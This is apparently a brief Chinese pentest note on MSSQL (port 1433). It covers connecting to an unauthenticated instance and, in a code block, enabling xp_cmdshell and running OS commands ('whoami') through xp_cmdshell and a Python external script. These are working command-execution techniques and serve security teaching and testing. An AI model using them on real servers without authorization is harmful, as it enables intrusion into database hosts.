 # 1433 MSSQL

## MSSQL 未授权访问

如果 MSSQL 服务存在未授权访问，可以直接使用 Navicate Premium 等工具进行连接。

## MSSQL 命令执行

```bash
# 查看 xp_cmdshell 开启状态 0 closed / 1 open
EXEC sp_configure 'xp_cmdshell';

# 启用 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

# 禁用 xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 0;
RECONFIGURE;

# 使用 xp_cmdshell 执行 whoami 命令
EXEC xp_cmdshell 'whoami';
EXEC dbName..xp_cmdshell 'whoami';

# 使用外部 Python 脚本执行 whoami 命令
EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'
```
